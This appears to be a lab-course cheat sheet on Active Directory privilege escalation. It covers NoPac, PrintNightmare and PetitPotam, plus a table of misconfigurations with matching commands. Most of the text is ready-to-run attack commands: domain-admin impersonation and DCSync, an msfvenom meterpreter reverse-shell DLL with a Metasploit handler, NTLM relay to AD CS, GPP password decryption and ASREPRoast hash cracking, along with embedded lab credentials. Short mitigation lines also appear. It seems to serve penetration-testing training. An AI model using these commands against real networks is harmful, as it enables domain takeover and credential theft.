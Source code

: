 # Bleeding Edge Vulnerabilities & Misconfigurations in Active Directory Lateral Movement

---

## Introduction

Many organizations delay patching and overlook configuration best practices, leaving them exposed to high-impact vulnerabilities and misconfigurations. This section covers both recent, high-profile attacks (NoPac, PrintNightmare, PetitPotam) and a range of common but critical misconfigurations. Each is mapped to the tools and commands used for detection and exploitation, with technical details and concise explanations.

---

## Scenario Setup

- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- **Switching platforms:** Use RDP for Windows, SSH from Windows to Linux as needed.
- **All tools referenced are open-source and available on GitHub.**

---

## 1. Bleeding Edge Vulnerabilities

### 1.1 NoPac (SamAccountName Spoofing)
- **CVE-2021-42278 & CVE-2021-42287**
- **Impact:** Privilege escalation from any standard domain user to Domain Admin.
- **Technique:** Change a computer account's SamAccountName to match a DC, then request Kerberos tickets as the DC.
- **Pre-requisite:** `ms-DS-MachineAccountQuota > 0` (default: 10).

**Key Commands:**
```bash
# Install tools
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python setup.py install
git clone https://github.com/Ridter/noPac.git

# Scan for vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# DCSync
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
**Mitigation:** Set `ms-DS-MachineAccountQuota` to 0, patch DCs.

---

### 1.2 PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- **Impact:** RCE and privilege escalation via Print Spooler service.
- **Technique:** Remote SYSTEM shell or relay attacks on unpatched hosts.

**Key Commands:**
```bash
# Clone exploit and install Impacket
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install

# Check for Print Spooler exposure
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Host DLL
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Start handler (Metasploit)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run

# Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
**Mitigation:** Patch all hosts, disable Print Spooler where not needed.

---

### 1.3 PetitPotam (CVE-2021-36942, MS-EFSRPC)
- **Impact:** LSA spoofing, NTLM relay to AD CS, domain compromise.
- **Technique:** Relay DC authentication to vulnerable CA, obtain certificate, perform DCSync.

**Key Commands:**
```bash
# Start ntlmrelayx.py targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Trigger authentication from DC
python3 PetitPotam.py 172.16.5.225 172.16.5.5

# Request TGT for DC using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
export KRB5CCNAME=dc01.ccache

# DCSync with secretsdump.py
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
**Mitigation:** Patch for CVE-2021-36942, harden AD CS, restrict templates, monitor for relaying.

---

## 2. Common Misconfigurations & Attacks

### Table: Misconfigurations, Vulnerabilities, and Attacks (with Example Commands)

| Misconfiguration / Vulnerability                | Attack / Abuse / Outcome                                 | Example Commands / Tools                                                                                   |
|------------------------------------------------|----------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| **Exchange Windows Permissions group**          | DCSync privilege escalation, domain compromise           | `net group "Exchange Windows Permissions" /domain`<br>BloodHound<br>PowerView                              |
| **PrivExchange (Exchange PushSubscription flaw)**| Relay Exchange auth to LDAP, dump NTDS, DA access        | `python3 privexchange.py -u user -p pass -d domain -t <exchange-server>`                                   |
| **Organization Management group**               | Full Exchange/OU control, mailbox access                 | `net group "Organization Management" /domain`<br>BloodHound                                                |
| **Print Spooler enabled (MS-RPRN bug)**         | Printer Bug: NTLM relay to LDAP, DCSync, RBCD            | `rpcdump.py @<target-ip> | grep MS-RPRN`<br>`Import-Module .\SecurityAssessment.ps1; Get-SpoolStatus -ComputerName <DC>`<br>`python3 SpoolSample.py <attacker-ip> <target-ip>` |
| **Unpatched MS14-068**                          | Kerberos PAC forgery, escalate to Domain Admin           | `python ms14-068.py -u user -p pass -d domain -s <dc-ip>`                                                  |
| **Weak/default LDAP credentials in devices**    | Credential sniffing, initial foothold                    | `nc -lvp 389`<br>Change LDAP IP in device/printer config                                                   |
| **AD DNS zone readable by users**               | DNS record enumeration, host discovery                   | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`<br>`adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` |
| **Passwords in user Description/Notes fields**  | Credential discovery, lateral movement                   | `Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}`                             |
| **PASSWD_NOTREQD flag set on accounts**         | Weak/no password, easy brute-force or login              | `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`                     |
| **SYSVOL/scripts readable by all**              | Passwords in scripts, privilege escalation               | `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`<br>`cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs` |
| **GPP cpassword in SYSVOL**                     | Decrypt local admin passwords, lateral movement          | `gpp-decrypt <cpassword>`<br>`crackmapexec smb -M gpp_password`<br>`Get-GPPPassword.ps1`                   |
| **Registry.xml in SYSVOL**                      | Autologon credentials, lateral movement                  | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`<br>`Get-GPPAutologon.ps1`            |
| **Do not require Kerberos pre-auth (UAC flag)** | ASREPRoasting: offline password cracking                 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`<br>`GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`<br>`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` |
| **GPOs with weak ACLs**                         | GPO abuse: add local admin, run code, persistence        | `Get-DomainGPO | select displayname`<br>`Get-DomainGPO | Get-ObjectAcl`<br>`SharpGPOAbuse.exe --AddLocalAdmin /GPOName:<GPO> /User:<user>`<br>BloodHound |
| **Password reuse across accounts**              | Lateral movement, privilege escalation                   | `crackmapexec smb ... --local-auth`<br>Password spraying tools                                              |
| **Unconstrained/Constrained Delegation**        | Ticket theft, lateral movement, privilege escalation     | BloodHound<br>Rubeus<br>Impacket tools                                                                      |
| **AD CS misconfigurations**                     | ESC1-8 attacks, domain persistence/compromise            | `certipy`<br>ADCS enumeration scripts                                                                       |

---

### Example: Enumerating for Printer Bug (MS-RPRN) in PowerShell

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Example: Enumerating DNS Records with adidnsdump

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

### Example: Finding Passwords in Description Field

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### GPP Password Decryption

```bash
gpp-decrypt <cpassword>
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
```

### ASREPRoasting

#### Method 1: PowerView + Rubeus + Hashcat

```powershell
# 1. Enumerate users with pre-auth not required
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# 2. Extract AS-REP hash
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

```bash
# 3. Crack hash offline
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
```

This version is much more concise, showing just the essential commands for each method without the verbose output, making it clean and easy to reference quickly.